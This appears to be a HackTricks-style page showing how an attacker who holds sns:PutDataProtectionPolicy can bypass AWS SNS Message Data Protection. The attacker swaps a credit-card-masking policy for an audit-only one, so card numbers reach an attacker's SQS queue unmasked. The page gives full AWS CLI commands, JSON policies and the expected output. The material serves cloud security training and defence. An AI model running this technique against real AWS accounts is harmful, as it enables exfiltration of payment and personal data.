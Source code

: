 # AWS - SNS Message Data Protection Bypass via Policy Downgrade

{{#include ../../../../banners/hacktricks-training.md}}

If you have `sns:PutDataProtectionPolicy` on a topic, you can switch its Message Data Protection policy from Deidentify/Deny to Audit-only (or remove Outbound controls) so sensitive values (e.g., credit card numbers) are delivered unmodified to your subscription.

## Requirements
- Permissions on the target topic to call `sns:PutDataProtectionPolicy` (and usually `sns:Subscribe` if you want to receive the data).
- Standard SNS topic (Message Data Protection supported).

## Attack Steps

- Variables

  ```bash
  REGION=us-east-1
  ```

1) Create a standard topic and an attacker SQS queue, and allow only this topic to send to the queue

   ```bash
   TOPIC_ARN=$(aws sns create-topic --name ht-dlp-bypass-$(date +%s) --region $REGION --query TopicArn --output text)
   Q_URL=$(aws sqs create-queue --queue-name ht-dlp-exfil-$(date +%s) --region $REGION --query QueueUrl --output text)
   Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

   aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes Policy=Version:2012-10-17
   ```

2) Attach a data protection policy that masks credit card numbers on outbound messages

   ```bash
   cat > /tmp/ht-dlp-policy.json <<'JSON'
   {
     "Name": "__ht_dlp_policy",
     "Version": "2021-06-01",
     "Statement": [{
       "Sid": "MaskCCOutbound",
       "Principal": ["*"],
       "DataDirection": "Outbound",
       "DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
       "Operation": { "Deidentify": { "MaskConfig": { "MaskWithCharacter": "#" } } }
     }]
   }
   JSON
   aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-policy.json)"
   ```

3) Subscribe attacker queue and publish a message with a test CC number, verify masking

   ```bash
   SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)
   aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
   aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
   ```

Expected excerpt shows masking (hashes):

```json
"Message" : "payment:{cc:################}"
```

4) Downgrade the policy to audit-only (no deidentify/deny statements affecting Outbound)

For SNS, Audit statements must be Inbound. Replacing the policy with an Audit-only Inbound statement removes any Outbound de-identification, so messages flow unmodified to subscribers.
   ```bash
   cat > /tmp/ht-dlp-audit-only.json <<'JSON'
   {
     "Name": "__ht_dlp_policy",
     "Version": "2021-06-01",
     "Statement": [{
       "Sid": "AuditInbound",
       "Principal": ["*"],
       "DataDirection": "Inbound",
       "DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
       "Operation": { "Audit": { "SampleRate": 99, "NoFindingsDestination": {} } }
     }]
   }
   JSON
   aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-audit-only.json)"
   ```

5) Publish the same message and verify the unmasked value is delivered
   ```bash
   aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
   aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
   ```
Expected excerpt shows cleartext CC:

```text
4539894458086459
```

## Impact
- Switching a topic from de-identification/deny to audit-only (or otherwise removing Outbound controls) allows PII/secrets to pass through unmodified to attacker-controlled subscriptions, enabling data exfiltration that would otherwise be masked or blocked.

{{#include ../../../../banners/hacktricks-training.md}}
